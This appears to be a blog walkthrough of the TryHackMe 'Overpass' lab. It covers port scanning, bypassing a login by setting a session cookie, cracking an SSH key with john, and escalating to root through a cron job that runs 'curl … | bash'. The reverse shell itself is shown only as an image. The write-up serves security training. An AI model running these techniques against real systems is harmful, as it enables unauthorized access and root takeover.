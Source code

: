 ```yaml
---

title: Walkthrough - Overpass
published: true
---
```


What happens when some broke CompSci students make a password manager?

[https://tryhackme.com/room/overpass](https://tryhackme.com/room/overpass)

* * *

## Enumerate

nmap -p- -T4 10.10.198.148 -vvv



* * * 

## Exploit

- Checking the /admin page discovered using dirb we discover inspecting elements and checking login.js that we can set sessiontoken to gain access to this ssh key

![](/assets/overpass01.png)

- now that we have a user "James" and sshkey we can login to ssh
- save the rsa key and ssh2john and feed to john

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/overpass]
└─$ john james.john                                                                       
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (james.rsa)     
1g 0:00:00:00 DONE 1/3 (2022-07-14 13:13) 20.00g/s 103660p/s 103660c/s 103660C/s james.rsarsa13..rsajames.rsa13
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- ssh in
- cat user and to-do.txt to find hints
- get system password from ov

```shell
james@overpass-prod:~$ /usr/bin/overpass
Welcome to Overpass
Options:
1 Retrieve Password For Service
2 Set or Update Password For Service
3 Delete Password For Service
4 Retrieve All Passwords
5 Exit
Choose an option: 4
System   saydrawnlyingpicture
```

```shell
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

- check /etc/crontab

```shell
james@overpass-prod:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user command
17 * * * * root    cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

- cronjob curls a script and running it as root we can probably take advantage of this

```shell
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

- edit with vim and create /downloads/src/buildscript.sh with reverse shell on attacker

![](/assets/overpass02.png)

* * * 